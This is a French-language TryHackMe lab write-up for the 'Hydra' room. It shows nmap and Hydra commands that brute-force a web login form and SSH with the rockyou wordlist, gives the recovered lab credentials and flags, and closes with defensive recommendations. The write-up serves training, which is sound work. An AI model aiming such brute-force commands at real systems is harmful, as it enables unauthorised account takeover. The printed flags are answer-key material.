








# Hydra - TryHackMe

**Difficulté :** Easy
**OS :** Linux
**Date :** 29 mars 2026
**Temps :** ~1h30
**Lien room :** https://tryhackme.com/room/hydra

---

## 🎯 Objectif

Apprendre à utiliser Hydra pour bruteforcer des credentials sur différents services (Web form & SSH).

---

## 🔍 Reconnaissance

### Scan Nmap

```bash
nmap -p- 10.128.129.124
```

**Résultats :**
- Port 22 : SSH
- Port 80 : HTTP



### Énumération Web

Navigation vers `http://10.128.129.124/login`



Test de credentials basiques → échec.
Pas de vulnérabilité SQL injection apparente.

**Conclusion :** Brute force nécessaire.

---

## 💥 Task 1 - Brute force Web Password

### Localisation de rockyou.txt

```bash
find / -name "rockyou.txt" 2>/dev/null
```

**Résultat :** `/usr/share/wordlists/rockyou.txt`



### Analyse de la requête HTTP

Inspection du formulaire de login → Méthode POST

**Paramètres :**
- username=^USER^
- password=^PASS^
- Message d'erreur : "Your username or password is incorrect"



### Brute force avec Hydra

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.128.129.124 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V
```



**Credentials trouvés :** `molly:sunshine`

### Récupération du Flag 1

Connexion avec les credentials → Flag 1 affiché



**Flag 1 :** `THM{2673a7dd116de68e85c48ec0b1f2612e}`

---

## 🚀 Task 2 - Brute force SSH Password

### Brute force SSH avec Hydra

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.128.129.124 -t 4 ssh
```



**Credentials trouvés :** `molly:butterfly`

### Connexion SSH

```bash
ssh molly@10.128.129.124
```



### Récupération du Flag 2

```bash
whoami
pwd
ls
cat flag2.txt
```


**Flag 2 :** `THM{c8eeb0468febbadea859baeb33b2541b}`

---

## 📚 Ce que j'ai appris

1. **Hydra est un outil puissant** pour le brute force de credentials sur différents protocoles (HTTP, SSH, FTP, etc.)

2. **L'importance de la syntaxe** : La commande `http-post-form` nécessite une structure précise avec les paramètres `^USER^` et `^PASS^`

3. **Le paramètre `-t`** contrôle le nombre de threads parallèles (important pour éviter de surcharger le serveur cible)

4. **Wordlists efficaces** : rockyou.txt contient +14 millions de passwords et reste une référence pour le brute force

---

## 🛠️ Outils utilisés

- Nmap (reconnaissance)
- Hydra (brute force)
- Burp Suite (analyse HTTP)
- SSH (connexion)

---

## 💡 Recommandations de sécurité

Pour se protéger de ce type d'attaque :

1. **Rate limiting** : Limiter le nombre de tentatives de connexion
2. **Account lockout** : Bloquer temporairement après X échecs
3. **Strong passwords** : Éviter les mots du dictionnaire
4. **2FA/MFA** : Ajouter une couche d'authentification supplémentaire
5. **Monitoring** : Alerter sur les tentatives de brute force

---

*Writeup by 0xMalt - TryHackMe Profile : https://tryhackme.com/p/0xMalt*
